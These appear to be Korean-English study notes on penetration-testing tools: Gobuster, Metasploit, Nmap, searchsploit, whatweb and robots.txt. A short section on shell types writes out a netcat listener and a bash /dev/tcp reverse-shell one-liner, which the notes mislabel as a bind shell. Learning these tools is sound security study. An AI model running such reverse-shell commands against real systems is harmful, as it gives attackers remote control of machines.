 
# Table of Contents

1.  [Gobuster](#org1e14de8)
2.  [Metasploit](#orgc0c0d6b)
3.  [Nmap](#org862a238)
4.  [robots.txt](#orgcc7e6ff)
5.  [searchsploit](#org499c5e5)
6.  [Shell](#org5f7524d)
7.  [whatweb](#orgecbb0b1)

\#-**- mode: org -**-


<a id="org1e14de8"></a>

# Gobuster

-   brute-forcing tool
-   dictionary-based
-   eg. gobuseter (directory) -u (url) -w (wordlist)


<a id="orgc0c0d6b"></a>

# Metasploit

-   많은 exploit들이 내장된 pentesting 도구


<a id="org862a238"></a>

# Nmap

-   포트스캔 도구


<a id="orgcc7e6ff"></a>

# robots.txt

-   웹 크롤러의 정보 수집 범위를 제한하는 역할을 한다.


<a id="org499c5e5"></a>

# searchsploit

-   익스플로잇 검색 툴
-   eg. searchsploit (application) (version)


<a id="org5f7524d"></a>

# Shell

-   types of shell (for remote command execution)
-   Bind Shell: 공격자가 공격 대상에 쉘을 업로드하고, 연결하여 통신
    -   netcat -lvnp <port>
    -   bash -c "bash -i >& *dev/tcp/host/port* 0>&1
    -   /dev/tcp/host/port 소켓을 기반으로 입출력 수행 (0>&1은 0이 1과 같은 곳으로 redirection 한다는 의미
-   Reverse Shell: 공격 대상에서 반대로 공격자쪽으로 연결하는 쉘
-   Web Shell: 웹 서버를 이용하여 명령을 실행


<a id="orgecbb0b1"></a>

# whatweb

-   웹서버의 버전과 간단한 정보를 출력하는 도구

